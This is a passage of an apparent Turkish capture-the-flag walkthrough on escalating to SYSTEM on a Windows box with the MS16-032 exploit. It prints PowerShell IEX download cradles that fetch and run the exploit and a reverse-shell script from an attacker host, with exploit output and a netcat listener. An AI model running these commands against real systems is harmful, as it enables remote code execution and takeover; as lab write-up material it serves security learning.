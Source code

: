 Bunun bir kopyasını indireceğim ve reverse shell'imi indirmek ve çalıştırmak için bir komutla çağırmak üzere sonuna bir satır ekleyeceğim:

```
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.9/rev.ps1')"
```

64 bit shell'den (ve hem rev.ps1'i sunan bir Python web sunucusu hem de shell'i almak için 443'ü dinleyen nc ile), exploit'i indirmek ve çalıştırmak için aynı PowerShell cradle'ı kullanacağım:

```
PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.16.9/Invoke-MS16032.ps1')
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

Invoke-MS16032.ps1 için hemen bir istek geliyor. Son mesaj çıktıktan sonra, rev.ps1 için başka bir istek ve ardından nc'de bir shell var:

![Pasted image 20250209182929.png](/img/user/resimler/Pasted%20image%2020250209182929.png)

Ve root.txt dosyasını alabilirim:

![Pasted image 20250209183043.png](/img/user/resimler/Pasted%20image%2020250209183043.png)
